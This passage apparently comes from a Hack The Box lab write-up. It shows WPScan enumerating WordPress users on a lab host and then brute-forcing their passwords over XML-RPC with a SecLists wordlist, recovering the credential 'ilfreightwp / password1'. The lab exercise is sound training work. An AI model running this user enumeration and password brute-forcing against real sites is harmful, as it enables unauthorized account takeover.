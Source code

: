 ```bash

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:06 <===============> (10 / 10) 100.00% Time: 00:00:06

[i] User(s) Identified:

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Dec 25 12:35:02 2024
[+] Requests Done: 57
[+] Cached Requests: 8
[+] Data Sent: 16.76 KB
[+] Data Received: 384.211 KB
[+] Memory used: 216.148 MB
[+] Elapsed time: 00:00:23
```

It extracts several wordpress users. I saved it to `wp-users.txt`.
With this usernames, I tried brute-force attack using `wpscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://ir.inlanefreight.local -U wp-users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt

<SNIP>

[+] Performing password attack on Xmlrpc against 4 user/s
[SUCCESS] - ilfreightwp / password1
Trying john / soccer10 Time: 00:05:05 <============     > (3005 / 4004) 75.04%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Dec 25 12:49:01 2024
```